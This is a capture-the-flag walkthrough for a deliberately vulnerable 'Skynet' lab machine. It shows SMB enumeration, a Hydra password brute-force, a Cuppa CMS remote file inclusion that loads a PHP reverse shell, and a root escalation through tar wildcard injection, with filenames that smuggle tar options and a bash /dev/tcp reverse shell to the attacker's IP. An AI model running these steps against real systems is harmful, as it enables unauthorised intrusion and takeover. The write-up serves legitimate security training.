

# Skynet

A vulnerable Terminator themed Linux machine.

# [Task 1] Deploy and compromise the vulnerable machine!

Hasta la vista, baby.

Are you able to compromise this Terminator themed machine?

You can follow our official walkthrough for this challenge on our blog.

## Recon

### Nmap

~~~
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL AUTH-RESP-CODE UIDL TOP PIPELINING CAPA
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: OK ENABLE LOGIN-REFERRALS have more SASL-IR IDLE LOGINDISABLEDA0001 capabilities listed Pre-login post-login ID IMAP4rev1 LITERAL+
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2020-06-08T13:21:00-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-08T18:21:00
|_  start_date: N/A
~~~

## dirsearch

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.67.236 -E /data/src/wordlists/directory-list-2.3-medium.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 8688

Error Log: /data/src/dirsearch/logs/errors-20-06-08_20-52-43.log

Target: http://10.10.67.236

[20:52:43] Starting: 
[20:52:44] 301 -  311B  - /js  ->  http://10.10.67.236/js/
[20:52:46] 403 -  278B  - /.ht_wsr.txt
[20:52:46] 403 -  278B  - /.hta
[20:52:46] 403 -  278B  - /.htaccess-dev
[20:52:46] 403 -  278B  - /.htaccess-local
[20:52:46] 403 -  278B  - /.htaccess-marco
[20:52:46] 403 -  278B  - /.htaccess.BAK
[20:52:46] 403 -  278B  - /.htaccess.bak1
[20:52:46] 403 -  278B  - /.htaccess.old
[20:52:46] 403 -  278B  - /.htaccess.orig
[20:52:46] 403 -  278B  - /.htaccess.sample
[20:52:46] 403 -  278B  - /.htaccess.save
[20:52:46] 403 -  278B  - /.htaccess.txt
[20:52:46] 403 -  278B  - /.htaccess_extra
[20:52:46] 403 -  278B  - /.htaccess_orig
[20:52:46] 403 -  278B  - /.htaccess_sc
[20:52:46] 403 -  278B  - /.htaccessBAK
[20:52:46] 403 -  278B  - /.htaccessOLD
[20:52:46] 403 -  278B  - /.htaccessOLD2
[20:52:46] 403 -  278B  - /.htaccess~
[20:52:46] 403 -  278B  - /.htgroup
[20:52:46] 403 -  278B  - /.htpasswd-old
[20:52:46] 403 -  278B  - /.htpasswd_test
[20:52:46] 403 -  278B  - /.htpasswds
[20:52:46] 403 -  278B  - /.htusers
[20:52:51] 301 -  314B  - /admin  ->  http://10.10.67.236/admin/
[20:52:51] 403 -  278B  - /admin/
[20:52:51] 403 -  278B  - /admin/.htaccess
[20:52:51] 403 -  278B  - /admin/?/login
[20:53:08] 301 -  315B  - /config  ->  http://10.10.67.236/config/
[20:53:08] 403 -  278B  - /config/
[20:53:09] 301 -  312B  - /css  ->  http://10.10.67.236/css/
[20:53:15] 200 -  523B  - /index.html
[20:53:26] 403 -  278B  - /server-status
[20:53:26] 403 -  278B  - /server-status/
[20:53:28] 301 -  321B  - /squirrelmail  ->  http://10.10.67.236/squirrelmail/

Task Completed
~~~

## #1 - What is Miles password for his emails?

*Hint: Enumerate Samba*

**Get the passwords list**

Let's first list the network shares:

~~~
$ smbclient -L 10.10.67.236
Enter SAMBA\unknown's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
~~~

**Anonymous share**

Now, let's connect to the anonymous share:

~~~
$ smbclient //10.10.67.236/anonymous
Enter SAMBA\unknown's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 18 06:41:20 2019
  ..                                  D        0  Tue Sep 17 09:20:17 2019
  attention.txt                       N      163  Wed Sep 18 05:04:59 2019
  logs                                D        0  Wed Sep 18 06:42:16 2019
  books                               D        0  Wed Sep 18 06:40:06 2019

		9204224 blocks of size 1024. 5311076 blocks available
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 06:42:16 2019
  ..                                  D        0  Wed Sep 18 06:41:20 2019
  log2.txt                            N        0  Wed Sep 18 06:42:13 2019
  log1.txt                            N      471  Wed Sep 18 06:41:59 2019
  log3.txt                            N        0  Wed Sep 18 06:42:16 2019

		9204224 blocks of size 1024. 5311076 blocks available
smb: \logs\> cd ..
smb: \> cd books
smb: \books\> ls
  .                                   D        0  Wed Sep 18 06:40:06 2019
  ..                                  D        0  Wed Sep 18 06:41:20 2019
  Introduction to Machine Learning with Python.pdf      N 33153722  Wed Sep 18 06:40:02 2019
  What You Need to Know about Machine Learning.pdf      N  4222827  Wed Sep 18 06:40:06 2019
  Thoughtful Machine Learning with Python.mobi      N  4986980  Wed Sep 18 06:40:06 2019
  Python Machine Learning.pdf         N 16433984  Wed Sep 18 06:40:05 2019

  [REDACTED]

  Machine Learning for Hackers.pdf      A 24204134  Wed Sep 18 06:40:03 2019
  Python Machine Learning Cookbook - Early Release.pdf      N  6656692  Wed Sep 18 06:40:05 2019

		9204224 blocks of size 1024. 5411092 blocks available
smb: \books\> 
~~~

Content of `attention.txt`:

~~~
$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
~~~

Content of `log1.txt` (looks like a password list)

~~~
$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
~~~

**Crack the Squirrelmail password**

Now let's crack miles dyson's password using the password list we have collected.

You can easily do it with Burp Suite, using the Intruder module and loading the password file directly.

You can also crack it with Hydra as follows:

~~~
$ hydra -l milesdyson -P log1.txt 10.10.1.235 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -v
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-10 13:03:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.1.235:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.1.235/squirrelmail/src/webmail.php
[80][http-post-form] host: 10.10.1.235   login: milesdyson   password: cyborg007haloterminator
[STATUS] attack finished for 10.10.1.235 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-10 13:04:00
~~~

Answer: `cyborg007haloterminator`

## #2 - What is the hidden directory?

There are 3 emails in the INBOX, and no email in the other directories:

~~~
Subject:    Samba Password reset
From:       skynet@skynet
Date:       Tue, September 17, 2019 10:10 pm
Priority:   Normal
Message:

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`

-----

From:       serenakogan@skynet
Date:       Tue, September 17, 2019 3:16 am
Priority:   Normal
Message:

01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111

-----

From:      serenakogan@skynet
Date:      Tue, September 17, 2019 3:13 am
Priority:  Normal

i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
~~~

* The 1st email is a password for Samba.
* The 2nd email is a binary string that means: `balls have zero to me to me to me to me to me to me to me to me to`
* The 3rd email is kind of a poem containing the key decoded from the 2nd email.

We'll check later if we need these last 2 emails. For now, let's connect to miles' samba share with the password diclosed in the 1st email:

~~~
$ smbclient -U milesdyson //10.10.67.236/milesdyson
Enter SAMBA\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 11:05:47 2019
  ..                                  D        0  Wed Sep 18 05:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 11:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 11:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 11:05:14 2019
  notes                               D        0  Tue Sep 17 11:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 11:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 11:05:14 2019

    9204224 blocks of size 1024. 5372228 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 11:18:40 2019
  ..                                  D        0  Tue Sep 17 11:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 11:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 11:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 11:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 11:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 11:01:29 2019
  important.txt                       N      117  Tue Sep 17 11:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 11:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 11:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 11:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 11:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 11:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 11:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 11:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 11:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 11:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 11:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 11:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 11:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 11:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 11:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 11:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 11:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 11:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 11:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 11:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 11:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 11:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 11:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 11:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 11:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 11:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 11:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 11:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 11:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 11:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 11:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 11:01:29 2019

    9204224 blocks of size 1024. 5372228 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
~~~

Here is the content of the file we downloaded:

~~~
$ cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
~~~

Looks like there is a hidden directory on the web server:

~~~
$ curl -s http://10.10.67.236/45kra24zxs28v3yd/
<html>
<head>

</head>
<body bgcolor="black">

 

<h2>Miles Dyson Personal Page</h2>
Dr. Miles Bennett Dyson was the original inventor of the neural-net processor which would lead to the development of Skynet,  a computer A.I. intended to control electronically linked weapons and defend the United States.

</body>
</html>
~~~

Answer: `/45kra24zxs28v3yd`

## #3 - What is the vulnerability called when you can include a remote file for malicious purposes?

Answer: `remote file inclusion`

## #4 - What is the user flag?

Let's perform a search in this directory with dirsearch. Interesting! There is an `administrator` subdirectory which reveals a Cuppa CMS page:

Searching for RFI vulnerabilities affecting Cuppa CMS leads to https://www.exploit-db.com/exploits/25971.

Let's confirm the vulnerability:

~~~
$ curl -s http://10.10.67.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

    

  
<b>Field configuration: </b>

    

    

        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
    

~~~

Perfect! Now, let's create a reverse shell. First open a handler:

~~~
$ rlwrap nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
~~~

Now, download a PHP reverse shell and edit it to put your IP. Make it available via a python web server:

~~~
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
$ vim php-reverse-shell.php 
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

Now, open the following URL in your browser: http://10.10.67.236/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.50.72:8000/php-reverse-shell.php. You should have a reverse shell:

~~~
Ncat: Connection from 10.10.67.236.
Ncat: Connection from 10.10.67.236:40568.
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:48:48 up 37 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
milesdyson
$ cd milesdyson
$ ls
backups
mail
share
user.txt
$ cat user.txt
7ce5c2109a40f958099283600a9ae807
~~~

User flag: `7ce5c2109a40f958099283600a9ae807`

## #5 - What is the root flag?

*Hint: A recursive call.*

Let's first spawn a better shell in python:

~~~
$ python -c 'import pty; pty.spawn("/bin/bash")'
~~~

Now let's see what we have in miles' home directory:

~~~
www-data@skynet:/$ cd /home/milesdyson
cd /home/milesdyson
www-data@skynet:/home/milesdyson$ ls -l
ls -l
total 16
drwxr-xr-x 2 root       root       4096 Sep 17  2019 backups
drwx------ 3 milesdyson milesdyson 4096 Sep 17  2019 mail
drwxr-xr-x 3 milesdyson milesdyson 4096 Sep 17  2019 share
-rw-r--r-- 1 milesdyson milesdyson   33 Sep 17  2019 user.txt
www-data@skynet:/home/milesdyson$ cd backups
cd backups
www-data@skynet:/home/milesdyson/backups$ ls -la
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Jun 10 11:44 backup.tgz
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson/backups$ 
~~~

There is a backup script (`backup.sh`) that compresses the entire `/var/www/html` directory with tar and saves the archive to miles' home directory. The script is executed by root every minute:

~~~
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 * * * *   root  /home/milesdyson/backups/backup.sh
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
www-data@skynet:/home/milesdyson/backups$ 
~~~

You can find ways to elevate the privileges using GTFOBins (https://gtfobins.github.io/gtfobins/tar/). We can execute a privileged shell with tar executed by root as follows:

~~~
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Let's use it to create a privileged reverse shell. To add the 2 required options, we will create files as follows:

~~~
$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
~~~

You should now have this:

~~~
www-data@skynet:/var/www/html$ ls -l /var/www/html
ls -l /var/www/html
total 64
-rw-rw-rw- 1 www-data www-data     0 Jun 10 12:07 --checkpoint-action=exec=bash shell
-rw-rw-rw- 1 www-data www-data     0 Jun 10 11:59 --checkpoint=1
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rwxrwxrwx 1 www-data www-data    52 Jun 10 11:59 shell
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
~~~

Open a handler that will listen to the port you have mentioned and you should have a root shell:

~~~
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
~~~

Root flag: `3f0372db24753accc7179a282cd6a949`
